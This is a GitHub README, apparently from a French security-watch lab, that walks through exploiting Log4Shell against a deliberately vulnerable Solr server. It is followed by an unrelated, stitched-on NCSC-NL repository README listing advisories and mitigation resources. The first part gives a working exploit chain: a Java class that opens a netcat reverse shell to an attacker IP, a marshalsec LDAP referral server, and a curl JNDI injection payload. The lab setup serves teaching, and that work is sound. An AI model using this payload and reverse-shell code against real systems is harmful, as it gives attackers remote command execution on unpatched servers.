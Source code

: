 # ENI Veille SSI Log4Shell

Pour réalisez l'attaque présente dans la vidéo, vous devez créez 2 machines virtuels

Dans le première machine qui sera celle de la victime, vous devrez installer une version vulnérable de Solr

## 1. Install Java on victim
Install Java.
```
$ sudo apt install default-jdk -y
```
Verify the Java installation.
```
$ java -version
```
Download Solr :
```
wget https://archive.apache.org/dist/lucene/solr/7.7.3/solr-7.7.3-src.tgz 
```

Install Apache Solr.
```
$ sudo bash solr-7.7.3/bin/install_solr_service.sh solr-7.7.3-src.tgz 
```
Check the status of the Apache Solr service.

```
$ sudo systemctl status solr
```
Enable the Apache Solr service to start on system boot.
```
$ sudo systemctl enable solr
```
Allow port 8983 through the UFW firewall.
```
$ sudo ufw allow 8983
```
To access the Apache Solr web interface, go to your browser and enter http://serverIP:8983.

## 2 Prepare attack :

The first order of business however is obtaining the LDAP Referral Server. We will use the marshalsec utility offered at https://github.com/mbechler/marshalsec

## exploit java :
```
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 4444");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Compiler le code java :
```
javac Exploit.java -source 8 -target 8
```

## Attack

Création du serveur python :
```
python3 -m http.server
```

Prepare a netcat listener on any port of your choosing :

```
nc -lnvp 4444
````
Execut ldap server :
```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"
```

Attack :
```
curl 'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'
```


# Log4shell vulnerabilities (CVE-2021-44228, CVE-2021-45046, CVE-2021-4104, CVE-2021-45105)

This repo contains operational information regarding the Log4shell vulnerability in the Log4j logging library. 
Especially CVE-2021-44228 / CVE-2021-45046 and also covers CVE-2021-4104 / CVE-2021-45105. For additional information see:

* [NCSC-NL advisory](https://www.ncsc.nl/actueel/advisory?id=NCSC-2021-1052)
* [MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)
* [EU CSIRT network members advisories, maintained by ENISA](https://github.com/enisaeu/CNW/tree/main/log4shell)
* [Log4shell vulnerability overview](https://github.com/NCSC-NL/log4shell/blob/main/log4shell_en.png)

For affected organisations and CISOs searching for concise mitigation guidance, the [Log4Shell for OES - Full presentation slides for CISOs and techies](https://github.com/NCSC-NL/log4shell/blob/main/detection_mitigation/Log4Shell%20for%20OES.pdf) describes the vulnerability and explains **all steps** necessary to successfully mitigate the vulnerability (**patching is not enough**).

## Repository contents

| Directory                          | Purpose |
|:-----------------------------------|:--------|
| [hunting](hunting/README.md)       | Contains info regarding hunting for exploitation |
| [iocs](iocs/README.md)             | Contains any Indicators of Compromise, such as scanning IPs, etc |
| [detection & mitigation](detection_mitigation/README.md)   | Contains info regarding detection and mitigation, such as regexes for detecting scanning activity and more |
| [scanning](scanning/README.md)     | Contains references to methods and tooling used for scanning for the Log4j vulnerability |
| [software](software/README.md)     | Contains a list of known vulnerable and not vulnerable software |
| [tools](tools/README.md)           | Contains a list of tools for automatically parsing info on this repo |

**Please note that these directories are not complete, and are currently being expanded.**

**NCSC-NL has published a HIGH/HIGH advisory for the Log4j vulnerability. Normally we would update the HIGH/HIGH advisory for vulnerable software packages, however due to the extensive amounts of expected updates we have created a list of known vulnerable software in the software directory.**

## Contributions welcome

If you have any additional information to share relevant to the Log4j vulnerability, please feel free to open a Pull request. New to this? [Read how to contribute in GitHub's documentation](https://docs.github.com/en/repositories/working-with-files/managing-files/editing-files#editing-files-in-another-users-repository).

### Hall of fame

We would like to thank every single one of you that contributed to our GitHub page.
NCSC-NL believes the GitHub page is a succes and you made that possible.
Below we present a very incomplete list of contributants we consider the repository's hall of fame:

* [ANSSI](https://www.ssi.gouv.fr/en/)
* [BSI/CERT-Bund](https://www.bsi.bund.de/EN/Topics/IT-Crisis-Management/CERT-Bund/cert-bund_node.html)
* [CERT-EU](https://cert.europa.eu/cert/plainedition/en/cert_about.html)
* [Cybersecurity & Infrastructure Security Agency CISA](https://www.cisa.gov/about-cisa)
* [DCSC](https://www.defensie.nl/onderwerpen/cyber-security/dcsc)
* [SURFcert](https://wiki.surfnet.nl/pages/viewpage.action?pageId=11063492)
* [SK-CERT](https://www.sk-cert.sk/en/about-us/index.html)
* [Z-CERT](https://www.z-cert.nl/)

* @DFFSpace
* @tintinhamans
* @milankowww
* @MrSeccubus
* @Goldshop
* @RemkoSikkema
* @MetzieNL
* @RobinFlikkema
* @lucasjellema
* @iglocska

